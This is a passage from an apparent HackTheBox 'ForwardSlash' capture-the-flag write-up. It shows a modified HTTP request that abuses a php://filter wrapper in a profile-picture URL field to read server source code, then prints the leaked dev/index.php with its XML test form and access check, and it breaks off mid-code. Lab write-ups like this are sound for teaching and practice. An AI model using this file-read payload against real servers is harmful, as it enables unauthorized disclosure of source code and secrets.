 This is my modified request.
```bash
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/profilepicture.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Connection: close
Cookie: PHPSESSID=uo0h87rn28qnns04bcgvipcdfs
Upgrade-Insecure-Requests: 1

url=php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/dev/index.php
```

Yeah, after the regular website there is something base64 encoded.

![burp](../../../../assets/images/hackthebox/forwardslash/9_burp_read_php.png)

It's the index.php file.
```php
<?php
//include_once ../session.php;
// Initialize the session
session_start();

if((!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true || $_SESSION['username'] !== "admin") && $_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
    header('HTTP/1.0 403 Forbidden');
    echo "<h1>403 Access Denied</h1>";
    echo "<h3>Access Denied From ", $_SERVER['REMOTE_ADDR'], "</h3>";
    //echo "<h2>Redirecting to login in 3 seconds</h2>"
    //echo '<meta http-equiv="refresh" content="3;url=../login.php" />';
    //header("location: ../login.php");
    exit;
}
?>
<html>
	<h1>XML Api Test</h1>
	<h3>This is our api test for when our new website gets refurbished</h3>
	<form action="/dev/index.php" method="get" id="xmltest">
		<textarea name="xml" form="xmltest" rows="20" cols="50"><api>
    <request>test</request>
</api>
</textarea>
		<input type="submit">
	</form>

</html>

<!-- TODO:
Fix FTP Login
-->

<?php
if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['xml'])) {

	$reg = '/ftp:\/\/[\s\S]*\/\"/';
	//$reg = '/((((25[0-5])|(2[0-4]\d)|([01]?\d?\d)))\.){3}((((25[0-5])|(2[0-4]\d)|([01]?\d?\d))))/'

	if (preg_match($reg, $_GET['xml'], $match)) {
```
